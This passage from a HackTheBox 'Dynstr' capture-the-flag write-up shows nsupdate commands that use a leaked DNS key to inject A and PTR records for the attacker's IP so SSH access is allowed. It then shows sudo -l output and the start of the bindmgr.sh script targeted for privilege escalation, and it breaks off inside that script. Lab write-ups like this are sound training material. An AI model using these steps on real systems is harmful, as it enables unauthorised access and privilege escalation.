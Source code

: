 ```
www-data@dynstr:/etc/bind$ nsupdate -k infra.key 
> server 127.0.0.1
> zone dyna.htb
> update add rouvin.infra.dyna.htb 86400 A 10.10.14.13
> send
> zone 10.in-addr.arpa
> update add 13.14.10.10.in-addr.arpa 86400 PTR rouvin.infra.dyna.htb
> send
```

Afterwards, we can `ssh` in as the user:

<figure><img src="../../../.gitbook/assets/image (407).png" alt=""><figcaption></figcaption></figure>

### Sudo

When checking `sudo` privileges, this is what we see:

```
bindmgr@dynstr:~$ sudo -l
sudo: unable to resolve host dynstr.dyna.htb: Name or service not known
Matching Defaults entries for bindmgr on dynstr:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User bindmgr may run the following commands on dynstr:
    (ALL) NOPASSWD: /usr/local/bin/bindmgr.sh
```

Here's the contents of the script:

```bash
#!/usr/bin/bash

# This script generates named.conf.bindmgr to workaround the problem
# that bind/named can only include single files but no directories.
#
# It creates a named.conf.bindmgr file in /etc/bind that can be included
# from named.conf.local (or others) and will include all files from the
# directory /etc/bin/named.bindmgr.
#
# NOTE: The script is work in progress. For now bind is not including
#       named.conf.bindmgr. 
#
# TODO: Currently the script is only adding files to the directory but
#       not deleting them. As we generate the list of files to be included
#       from the source directory they won't be included anyway.

BINDMGR_CONF=/etc/bind/named.conf.bindmgr
BINDMGR_DIR=/etc/bind/named.bindmgr

indent() { sed 's/^/    /'; }

# Check versioning (.version)
echo "[+] Running $0 to stage new configuration from $PWD."
if [[ ! -f .version ]] ; then
    echo "[-] ERROR: Check versioning. Exiting."
    exit 42
```